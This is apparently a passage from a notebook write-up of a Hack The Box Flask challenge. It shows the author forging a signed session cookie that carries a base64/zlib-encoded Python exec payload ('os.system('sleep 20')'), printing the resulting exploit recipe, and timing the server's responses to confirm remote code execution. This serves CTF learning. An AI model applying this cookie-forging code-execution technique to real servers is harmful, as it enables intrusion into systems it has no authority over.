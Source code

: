     1 for HTB, 2 for our local web server1
    Using the url: http://167.172.53.64:30820



```python
get_response_from_the_app_using_cookie(url,evil_cookie)
```




    <!DOCTYPE html>\n<html><head>\n<meta content="width=device-width, initial-scale=1" name="viewport"/>\n<meta content="makelaris" name="author"/>\n<title>\U0001f30c on Venzenulon 9</title>\n<link crossorigin="anonymous" href="//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" rel="stylesheet"/>\n<link href="//fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css"/>\n<style>html, body {background-image: url('//s-media-cache-ak0.pinimg.com/736x/7b/fe/d2/7bfed2ffe038beb673efd872cd44ba2c.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>\n</head>\n<body>\n<img class="mx-auto d-block img-responsive" src="//media3.giphy.com/media/eO8zgwAt3MVW/giphy.gif"/>\n</body>\n<!-- /debug -->\n</html>



In HTB **is not sleeping**. The response is indeed way faster than 30 seconds.

The treshold of 30 seconds is to avoid that any delay, due to a possible firewall or other mechanisms, could make us think that the code got executed correctly.

## OS commands

The next approach is to go hard and check if bash commands could be executed on the HTB machine.

Although not the best choice we use the `system` function of the `os` module to execute system commands. We prefer to use this library because of the short number of characters that are sufficient to run a command. We have to use as less space as possible.



```python
pl_sleep_bash = "import os;os.system('sleep 20')"
```

We compute the payload to be sent in the cookie.


```python
pl_sleep_bash_with_encoding = make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_sleep_bash))
```


```python
evil_cookie = from_payload_to_cookie_for_flask(pl_sleep_bash_with_encoding,secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjc0KwyAQhF9l8bIKRUKP7aOEIGo3IPgTsgoNpe/eTU69DTPfzNCbolZKpbK1vUPjZ2PLB3cqGjkTbXCf0Ahx+6BzYaTcU2Xn8DFHWNsOEVIFbaxzMXuWRFTwTJfgES6XxNcG0goYfcezEiWuvggHyzwt50Jpr5HJ/t98zQ8m3jab"'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 254



```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server2
    Using the url: http://173.17.0.3:1337

